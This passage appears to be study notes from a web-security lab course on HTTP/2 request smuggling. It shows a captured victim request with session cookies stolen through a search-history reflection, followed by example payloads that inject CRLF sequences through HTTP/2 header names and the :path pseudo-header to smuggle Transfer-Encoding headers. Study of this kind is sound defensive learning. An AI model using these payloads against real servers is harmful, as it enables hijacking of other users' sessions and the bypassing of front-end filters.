 Search history after user sent the request:
```html
...
<label>Recent searches:</label>
	<ul>
		<li><a href="/?search=xGET+%2f+HTTP%2f1.1%0d%0aHost%3a+0a7500e8034d7b3680984966002000c7.web-security-academy.net%0d%0acache-control%3a+max-age%3d0%0d%0asec-ch-ua%3a+%22Google+Chrome%22%3bv%3d%22113%22%2c+%22Chromium%22%3bv%3d%22113%22%2c+%22Not-A.Brand%22%3bv%3d%2224%22%0d%0asec-ch-ua-mobile%3a+%3f0%0d%0asec-ch-ua-platform%3a+%22Linux%22%0d%0aupgrade-insecure-requests%3a+1%0d%0auser-agent%3a+Mozilla%2f5.0+%28Victim%29+AppleWebKit%2f537.36+%28KHTML%2c+like+Gecko%29+Chrome%2f113.0.0.0+Safari%2f537.36%0d%0aaccept%3a+text%2fhtml%2capplication%2fxhtml%2bxml%2capplication%2fxml%3bq%3d0.9%2cimage%2favif%2cimage%2fwebp%2cimage%2fapng%2c*%2f*%3bq%3d0.8%2capplication%2fsigned-exchange%3bv%3db3%3bq%3d0.7%0d%0asec-fetch-site%3a+none%0d%0asec-fetch-mode%3a+navigate%0d%0asec-fetch-user%3a+%3f1%0d%0asec-fetch-dest%3a+document%0d%0aaccept-encoding%3a+gzip%2c+deflate%2c+br%0d%0aaccept-language%3a+en-US%2cen%3bq%3d0.9%0d%0acookie%3a+victim-fingerprint%3drT2aZA43c0VWrqLXwF10ASrLAcf7kntf%3b+secret%3dhVYxxLL33f4slsMf1evsoq9T4n4qIay1%3b+session%3dw2d3">xGET / HTTP/1.1
...
cookie: victim-fingerprint=rT2aZA43c0VWrqLXwF10ASrLAcf7kntf; secret=hVYxxLL33f4slsMf1evsoq9T4n4qIay1; session=w2d3erKlp3WIlT7Z6Mn4CVF8CLSkuBNE;
...
```

## Injecting via header names

By combining colons with `\r\n` characters, you may be able to use an HTTP/2 header's name field to sneak other headers past front-end filters. These will then be interpreted as separate headers on the back-end once the request is rewritten using HTTP/1 syntax:

```http
HTTP/2
foo: bar\r\nTransfer-Encoding: chunked\r\nX:	ignore

HTTP/1
Foo: bar\r\n
Transfer-Encoding: chunked\r\n
X: ignore\r\n
```

## Injecting via pseudo-headers

>[!tip] Remember
>When injecting into the `:path` or `:method` pseudo-headers, you need to make sure that the resulting HTTP/1 request still has a valid request line.
>After downgrading, the rewritten request must contain the following sequence prior to the first `\r\n` that you inject:
>`<method> + space + <path> + space + HTTP/1.1`

Front-end (HTTP/2)
```http
:method	GET
:path	
/example HTTP/1.1\r\n
Transfer-Encoding: chunked\r\n
X: x

:authority	vulnerable-website.com
```
